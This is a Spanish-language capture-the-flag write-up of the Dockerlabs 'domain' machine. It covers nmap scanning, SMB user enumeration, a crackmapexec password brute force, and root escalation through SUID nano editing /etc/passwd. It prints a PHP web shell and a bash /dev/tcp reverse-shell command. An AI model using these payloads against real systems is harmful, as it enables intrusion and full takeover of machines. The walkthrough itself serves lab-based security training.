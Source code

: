 Máquina domain


Iniciamos con la rutina de reconocimiento con nmap:

```
# Nmap 7.94SVN scan initiated Thu Apr 18 20:17:52 2024 as: nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-18 20:17:53 CEST for 17s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-time: 
|   date: 2024-04-18T18:18:06
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58970/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 16713/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

Vemos un http,un servicio smb en el puerto 445 y en el 139

Hacemos un reconocimiento de todo, vamos a empezar por el protocolo http que al parecer nos dice que esta corriendo samba, he probado a fuzzeartanto directorios como subdominios y nada, vamos a ver 
los otros servicios el 139 y el 445

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/f46dfba4-e12c-411b-87bb-9d68db0ca333)

Al no tener absolutamente nada de nada, vamos a utilizar la herramienta rpcclient:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/08e4ea79-65b2-4ca9-8fee-011d30ead24a)

encontramos dos usuarios validos james y bob, como no sabemos la contraseña vamos a ver si con crackmapexec podemos ejecutar una fuerza bruta exitosa:

```
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/a7cca8c9-cbbd-4f31-b195-6f205c9edca5)

La contraseña nos la ha encontrado, asi que vamos a entrar al smb a ver que hay dentro:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/06a6d222-12be-406a-bd0a-91dded953db2)

ya podemos enumerar:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/b288a91f-d4d3-4f3a-8b67-19d08a649930)

Entramos y como podemos ver el html sera el de la página principal, así que si creamos un archivo malicioso y lo metemos en el
smb podemos llamarlo desde la página y entablarnos una reverse shell:

Le voy a meter con el comando put el siguiente archivo llamado cmd.php:

```
<?php
        system($_GET['cmd']);
?>
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7afc7d38-736c-4e20-a385-19415fc3676c)

ya con ejecución remota de comados, pues vamos a entablarnos la reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.37/443 0>%261"
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9bf7ae08-9bfc-490b-b541-e5369379c63c)


le metemos el comando: python3 -c 'import pty;pty.spawn("/bin/bash")' y a por el ruteo,

nos metemos en el usuario bob con la misma contraseña -> star, sudo -l no funcion, vamos a comprobar los permisos SUID, encontramos que esta nano:

Entonces con nano lo que se puede hacer es:

```
/usr/bin/nano /etc/passwd
```

Si entramos aqui con el nano y le quitamos la x a el usuario root, pues tan solo ponemos su root y nos convertimos en root.

Esta máquina me a parecido interesante por que hacia tiempo que no utilizaba la herramienta rpcclient y ademas nunca habia hecho
una fuerza bruta con crackmapexec a un protocolo smb.

Dificultado 3/5
Diversión 2/5











